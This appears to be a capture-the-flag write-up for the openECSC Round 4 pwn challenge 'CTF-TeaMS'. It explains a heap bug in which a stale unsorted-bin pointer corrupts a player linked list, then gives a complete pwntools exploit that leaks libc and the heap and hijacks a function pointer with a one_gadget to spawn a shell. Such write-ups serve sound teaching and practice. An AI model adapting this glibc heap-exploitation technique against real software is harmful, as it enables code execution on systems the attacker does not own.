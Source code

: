 # openECSC - Round 4

## [pwn] CTF-TeaMS (18 solves)

Always dreamt of being a pro CTF player but you have too many skill issues??
No worries, we got you covered! Now you can feel the same thrill pro players
do, by using our brand new CTF Team Manager Simulator!
Create your dream team, and go get those flags!

`nc ctfteams.challs.open.ecsc2024.it 47004`

Author: Nalin Dhingra <@Lotus>

## Overview

The challenge presents a simple binary that works as a CTF simulator, in which
you can create a team of players (max 5) and solve challenges to get flags.
The team is managed through a linked list, and when adding a new player you
choose the name, motto and category of the player.
Then randomly the player is given a skill level and a mental health score is set
to 100. Each player is based on a structure with the following fields:

```c
#define MAX_NICK_LEN    500
#define MAX_MOTTO_LEN   0x200

enum category {
    CAT_PWN,
    CAT_RE,
    CAT_MISC,
    CAT_WEB,
    CAT_CRY,
};

struct __attribute__((__packed__)) ctfplayer {
    struct ctfplayer *next;
    enum category cat;
    char motto[MAX_MOTTO_LEN];
    char nick[MAX_NICK_LEN];
    void (*try_solve)(void *self);
    uint32_t flags;
    short mental_health;
    uint16_t skills;
};
```

As we can notice each player has a function pointer `try_solve` that is called
when it attempts to solve a challenge. The function pointer is set to a
different function depending on the category of the player.

Other functionalities include the removal of a single player (we can only do it
once), and the possibility to edit the motto of any player.

Moreover if we choose the category `CAT_PWN` the structure of the player
presents an extra field

```c
struct pwner {
    struct ctfplayer player;
    uint64_t zero_days;
};
```

### Vulnerability

The vulnerability presents in the functionality that adds a new player, in fact
when the `struct ctfplayer` is initialized the `next` field is not explicitly
set to `NULL`. This doesn't normally present a problem, because when `malloc()`
takes a chunk from the top chunk it is usually already zeroed out. However, the
binary also gives the possibility to remove a player from the team once, hence
freeing the memory related to the structure in question.

This chunk if placed carefully will not consolidate with the top chunk and will
be therefore inserted in the unsorted bin list, placing pointers to `main_arena`
in the `fd` and `bk` fields of the chunk. When reallocating the chunk, the field
corresponding to the `next` pointer in the `struct ctfplayer` will contain the
leftover pointer to `main_arena`, thus corrupting the linked list.

The fake player on the `main_arena` coincidentally has as the `next` field the
pointer to the `top_chunk`, therefore when corrupting the linked list we insert
two fake players in the list, one over `main_arena` and the other over the
`top_chunk`.

## Solution

The main idea to solve the challenge is to use the fake player over the
`main_arena` to get leaks of `libc`, get a leak of an heap address from the
`next` field of the fake player over the `top_chunk`, and then forge a fake
unsorted bin chunk that will overlap with its `nick` with the function pointer
of an existing player.
We can use the edit functionality to craft the fake unsorted bin both on the
heap and in `main_arena` being careful to satisfy all the checks run by
`malloc()` to ensure it is a valid unsorted bin chunk.

Once we obtain back the unsorted bin chunk, we can overwrite the `try_solve`
function pointer with a `one_gadget`, and then call the function to get a shell.

## Exploit

```python
#!/bin/env python3

from pwn import *

#
# INIT
#
elf = context.binary = ELF("./bin/ctf-teams", False)
libc = ELF("./glibc/libc.so.6", False)

#
# FUNCTIONS
#
def add_player(cat, nick, motto):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"> ", str(cat).encode())
    io.sendlineafter(b"Nickname: ", nick)
    io.sendlineafter(b"Motto: ", motto)

def remove_player(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"> ", str(idx).encode())

def show_player(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"> ", str(idx).encode())

def solve_chall(idx):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"> ", str(idx).encode())

def edit_motto(idx, motto):
    io.sendlineafter(b"> ", b"5")
    io.sendlineafter(b"> ", str(idx).encode())
    io.sendlineafter(b"motto: ", motto)

#
# EXPLOIT
#
def main():
    global io
    io = process(elf.path)
    if io == -1:
        return -1

    add_player(2, b"A"*8, b"MOTTO")
    add_player(2, b"A"*8, b"MOTTO")
    add_player(2, b"B"*8, b"MOTTO")
    remove_player(2)

    add_player(2, b"C"*8, b"MOTTO")

    # Leak libc
    show_player(4)
    io.recvuntil(b"obtained: ")
    libc_leak = int(io.recvline(False))
    io.recvuntil(b"health: [")
    libc_leak += (int(io.recvuntil(b"/", True)) << 32)
    libc.address = libc_leak - 0x21b0d0
    success(f"libc @ {hex(libc.address)}")

    # Leak heap
    add_player(1, b"D"*8, b"GIVEMEHEAPLEAK")
    show_player(6)
    io.recvuntil(b"exploits: ")
    heap_base = int(io.recvline(False)) - 0xf00
    success(f"heap base @ {hex(heap_base)}")

    # Craft fake unsorted bin
    unsorted_arena_ptr = libc.address + 0x21ace0
    payload = b"AAAA" + b"PWNINGINPROGRESS" * 16
    payload += p64(0) + p64(0x421)
    payload += p64(unsorted_arena_ptr) * 2
    edit_motto(1, payload)

    # Next fake size
    payload = b"BBBB" + b"PWNINGINPROGRESS" * 16
    payload += p64(0x420) + p64(0x300)
    edit_motto(3, payload)

    # Overwrite pointers in main arena.
    # We have to do multiple writes to avoid '\n' and overwriting of other
    # pointers
    payload = b"A" * 12
    payload += p64(heap_base + 0x3b0)
    payload = payload[:-2]
    edit_motto(4, payload)
    payload = b"A" * 4
    payload += p64(heap_base + 0x3b0)
    payload = payload[:-2]
    edit_motto(4, payload)
    payload = b"AA"
    edit_motto(4, payload)
    payload = b""
    edit_motto(4, payload)

    # Allocate fake chunk and overwrite function pointer with one gadget
    nick = b"P"*0xd4
    nick += (libc.address + 0xebc81).to_bytes(8, "little")
    nick += p32(0) + p32(0x004c0064)
    nick += p64(0)
    nick += p64(0x421)
    nick += p64(0)
    nick += p64(0x1)
    add_player(3, nick, b"FAKECHUNK")

    # Trigger one gadget
    solve_chall(1)


    io.interactive()


if __name__ == "__main__":
    main()
```
